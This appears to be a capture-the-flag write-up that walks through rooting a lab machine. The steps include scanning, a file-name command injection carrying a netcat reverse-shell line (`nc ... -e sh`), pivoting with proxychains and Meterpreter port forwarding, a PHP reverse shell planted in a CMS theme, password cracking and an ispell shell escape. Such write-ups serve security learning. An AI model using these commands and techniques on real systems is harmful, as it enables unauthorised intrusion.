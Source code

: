 Started with a nmap scan
```
22 OpenSSH 6.7p1
80 nginx 1.6.2
111 rpcbind
50925
```
Starting a gobuster scan
```
/static
/static/js/
/static/img/
/static/css/
/mail/contact_me.php
```
Looking at the webhost there is a `/upload` section were we can only upload `txt,rtf` files all we have is a file upload function we can we do command injection on the file name but the file name can only be 30 letters max so we need to convert are ip to decimal format `test.txt;nc 168626431 4444 -e sh` and now we have a shell as `www-data` looking in the `main.py` file we have a ftp login `someuser:..................` we have to write a python script to connect to the FTP service with the domain and creds we have and there is a file called `creds.txt` `admin:.................` but we need to find were these creds go scanning the docker some more found another interface on ip `192.168.150.0/24` but there is no nmap on the host so we need to use proxy chains to scan the host and found a ip on `192.168.150.1` so now we need to port forwarding on this host to get a better host I made a elf payload with msfvenom and then ran it will also make port forwarding easier using this command `portfwd add -l 8888 -p 80 -r 192.168.150.1` and now we have the website doing  a dig command we found some subdomains `dig axfr mofo.pwn` and there is a couple but we want the `newcms` one now running a gobuster on the site
```
/blog
/admin
/contact
```
now we can login into the admin section with the creds we found and we can edit the pages of the site but if we edit the theme with a php reverse shell and now we are `www-data` outside of the docker running linpeas on the host and found a database in the host in the `/var/www/inc/data/database.sdb` and it has 2 hashes we can try cracking after a little bit we cracked one password and it works on the SSH account of `benclower:.....................` when we did are enumeration eailer we found we can run a program called `ispell` and this program if you check the manage file for this there is a shell breakout after we do the shell breakout we can now read the `auth.log` file that has the root password in it `...................` and now we can get the root flag 